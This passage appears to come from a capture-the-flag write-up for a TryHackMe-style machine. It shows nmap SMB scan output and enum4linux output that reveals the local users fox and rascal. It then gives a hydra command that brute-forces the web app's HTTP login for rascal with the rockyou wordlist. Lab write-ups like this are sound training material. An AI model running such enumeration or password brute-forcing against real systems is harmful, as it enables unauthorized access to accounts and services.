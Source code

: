 ``` {.python .numberLines}
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-29T14:24:57
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 29 19:55:04 2020 -- 1 IP address (1 host up) scanned in 56.96 seconds

```

2\. Here's the summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:  

![writeup.enumeration.steps.2.1](Box%20Write-ups/thm.yotf/openports.png)  

3\. We find `80/tcp` to be open and enumerate it further. The webapp enforces authentication due to which we are not allowed to view any pages. We will need to find the credentials for the web app to proceed with this further:  

4\. From the scan results SMB for ports, we find that there are two active users on this machine: `fox` and `rascal`  
``` {.python .numberLines}
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\fox (Local User)
  User Name   : fox
  Full Name   : fox
  Home Drive  : \\year-of-the-fox\fox
  Dir Drive   : 
  Profile Path: \\year-of-the-fox\fox\profile
  Logon Script: 

S-1-22-1-1001 Unix User\rascal (Local User)
Use of uninitialized value $user_info in pattern match (m//) at ./enum4linux.pl line 932.

 ============================================= 
|    Getting printer info for 10.10.41.240    |
 ============================================= 
No printers returned.

enum4linux complete on Wed Jul 29 20:18:34 2020

```

5\. We run a password bruteforce scan against the webapp for both usernames and find a hit:  
``` {.python .numberLines}
hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.41.240 http-head /

```
